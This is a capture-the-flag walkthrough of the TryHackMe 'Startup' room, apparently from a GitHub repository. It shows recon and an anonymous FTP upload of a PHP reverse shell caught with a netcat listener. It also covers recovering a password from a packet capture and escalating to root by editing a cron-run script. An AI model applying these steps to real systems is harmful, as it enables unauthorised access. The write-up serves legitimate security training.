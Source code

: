 # Startup

[Startup](https://tryhackme.com/room/startup) is an easy difficulty room created by
[elbee](https://tryhackme.com/p/elbee).

---

## Recon

Let's start by throwing our IP address into an environment variable:

```
$ export IP=10.10.33.231
```

Now, run nmap to discover open ports and services

```
$ nmap -sC -sV -oN nmap_initial.txt $IP
 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.2.8.243
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three open ports:
- **Port 21:** FTP with anonymous login enabled and a few readable files
- **Port 22:** SSH for remote access
- **Port 80:** HTTP Apache web server - so there is a website we can enumerate

I always like to explore web servers first, so let's check out the website:

![landing_page](./screenshots/landing_page.png)

Not much. Maybe `gobuster` can find something?

```
$ gobuster -u http://$IP -w /usr/share/wordlists/dirb/common.txt | tee gobuster.txt

/files
```

Cool! A hidden /files folder:

![files](./screenshots/files.png)

These are the same files we say earlier in the `nmap` scan!

Contents of notice.txt:

![notice](./screenshots/notice.png)

Perhaps Maya is a valid username we can use in a brute-force password attack?
We'll make a mental note of that an move on.

The important.jpg is just an Among Us meme.
 
---

## Gaining Access with a Reverse Shell

So far we have discovered two critical things:

1. There's an FTP server with anonymous login
2. We can access files through the HTTP web server 

We can use this knowledge to upload and execute a reverse shell to gain remote
access to the system!

### Step 1 - Generate a Payload

This is an Apache web server, and since Apache typically runs PHP code, I will
be using a PHP payload. 

I like the one from [PenTestMonkey](pentestmonkey@pentestmonkey.net) (available
in /usr/share/webshells/php-reverse-shell.php on Kali Linux), but you can choose anything.

Be sure to change the default IP address and port.

### Step 2 - Upload Payload

Log into FTP as the anonymous user, navigate to the /ftp folder, and upload the
newly created payload:

```
$ ftp 10.10.33.231                  
Connected to 10.10.33.231.
220 (vsFTPd 3.0.3)
Name (10.10.33.231:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put revshell.php 
local: revshell.php remote: revshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (34.9172 MB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5492 May 31 02:03 revshell.php
226 Directory send OK.
```

Note: I named my shell revshell.php.

### Step 3 - Start Reverse Shell Listener

In another terminal window, start a netcat listener:

```
$ nc -nlvp 4444
```

### Step 4 - Execute Payload

Navigate back to the /files/ftp folder on the web server and notice our uploaded
revshell!

![revshell](./screenshots/revshell.png)

Click on it to execute and start the reverse shell.

```
$ nc -nlvp 4444   
listening on [any] 4444 ...
connect to [10.2.8.243] from (UNKNOWN) [10.10.33.231] 44684
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020
x86_64 x86_64 x86_64 GNU/Linux
 02:09:18 up 49 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

---

## Privilege Escalation

We've got a (crummy) shell! Time to [upgrade
it](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/).

We are the www-data user, which has limited permissions. We need to find a way
to escalate to a higher privileged user.

After some looking around, I found the /incidents/suspicious.pcapng file. This
is a snapshot of a packet capture - data in transmission.

I examined the file with `tcpdump` and found the following line:

```
tcpdump -nqtAr suspicious.pcapng

...truncated output...
P 192.168.22.139.40934 > 192.168.22.139.4444: tcp 30
E..R%.@.@.g7...........\/5.^.......@.......
*.@     *.?.[sudo] password for www-data: 
IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 0
E..4.~@.@............\....../5.|...@.......
*.@     *.@
IP 192.168.22.139.4444 > 192.168.22.139.40934: tcp 19
E..G..@.@............\....../5.|...@.......
*.J.*.@ c4ntg3t3n0ughsp1c3
...
```

Someone tried to login to www-data with the password "c4ntg3t3n0ughsp1c3". Later
on in the dump is an error message showing that this password is incorrect for
this user.

Perhaps we can try it on a user who has a home folder?

```
$ ls /home
lennie
```

Trying the password out on lennie works like a charm:

```
$ su lennie
Password:
lennie@startup:~$ 
```

Time to check out their home folder:

```
lennie@startup:~$ ls
Documents  scripts  user.txt
```

Print out the user.txt flag. The Documents folder has some funny content, but
nothing useful for completing the room. 

The more interesting item is the scripts folder. In it, are two files:

```
lennie@startup:~/scripts$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 May 31 02:32 startup_list.txt
```

Both files are owned by root. What's in the planner.sh shell script?

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

It looks like this is a cronjob that root executes. What is the /etc/print.sh?

```
lennie@startup:~/scripts$ ls -l /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Oooo, we have write access! Add the following line to the end of print.sh:

```
cat /root/root.txt > /home/lennie/scripts/startup_list.txt
```

On the next minute, the root.txt flag will be in the startup_list.txt file!

---

## Lessons Learned

1. Disable anonymous FTP login! We were able to upload and execute a reverse
shell payload to gain access to the system
2. Use encrypted protocols like FTPS or HTTPS! We found the cleartext password in the pcapng file.
